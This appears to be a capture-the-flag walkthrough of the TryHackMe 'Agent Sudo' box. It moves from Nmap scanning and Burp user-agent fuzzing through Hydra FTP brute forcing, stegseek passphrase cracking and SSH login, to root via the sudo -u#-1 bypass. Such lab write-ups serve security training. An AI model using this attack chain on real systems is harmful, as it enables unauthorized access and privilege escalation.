 # THM - Agent Sudo

##### Ip: 10.10.132.28
##### Name: Agent Sudo
##### Rating: Easy

------------------------------------------------

![thm_agentsudo_pic.png](../assets/agent_sudo_assets/thm_agentsudo_pic.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.132.28
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-18 15:12 CST
Warning: 10.10.132.28 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.132.28
Host is up (0.18s latency).
Not shown: 59955 closed tcp ports (reset), 5577 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.16 seconds
```

Looking at the site on port 80 we find the following message:

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Capturing the request in Burp, and using `R` for the user-agent field, we get a new result:

thm_agentsudo_r.png

Ok, interesting. 

Let's create a list of letters we can use to spray in Burp:

```
A
B
C
D
E
F
G
<snip>
```

Sending the request to Intruder in Burp, pasting in the payload list, and starting the Sniper attack, we see that letter C has a 302 redirect:

thm_agentsudo_c.png

Forwarding the request we find a new note, alongside a name of chris:

thm_agentsudo_note.png

This is a nice little hint. We now have the username chris, and we know he has a weak password, so let's try brute forcing FTP with Hydra.

thm_agentsudo_hydra.png

### Exploitation

Cool, that worked. We now have the credentials `chris:crystal`. 

Let's use these to access FTP as chris.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ftp 10.10.132.28 
Connected to 10.10.132.28.
220 (vsFTPd 3.0.3)
Name (10.10.132.28:ryan): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62593|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||34734|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |********************************************************************************|   217        1.33 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.64 KiB/s)
mget cute-alien.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||54112|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |********************************************************************************| 33143      280.95 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (131.90 KiB/s)
mget cutie.png [anpqy?]? y
229 Entering Extended Passive Mode (|||28937|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |********************************************************************************| 34842      279.89 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (137.32 KiB/s)
ftp> bye
221 Goodbye.
```

Inside we find three files, let's use `mget *` to download these locally.

Looking at the note first, we find:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Trying to use `steghide` to look at the contents of the cute-alien.jpg file, we see it is passphrase protected.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
```

Let's use `stegseek` to crack this:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ stegseek -sf cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

Stegseek gave us an output file, so let's check that out:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat cute-alien.jpg.out
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Ok, lets use these credentials to SSH in as James:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ssh james@10.10.132.28                                     
The authenticity of host '10.10.132.28 (10.10.132.28)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.28' (ED25519) to the list of known hosts.
james@10.10.132.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)
```

We can now grab the user.txt flag:

thm_agentsudo_user.png

### Privilege Escalation

Running `sudo -l` to see what James can run with elevated permissions we find:

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Cool, this should make for an easy root.

This is a good guide on abusing this: https://www.exploit-db.com/exploits/47502

We can simply run:

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

And elevate to root.

We can now grab the final flag:

thm_agentsudo_root.png

Thanks for following along!

-Ryan

--------------------------------------------------------------
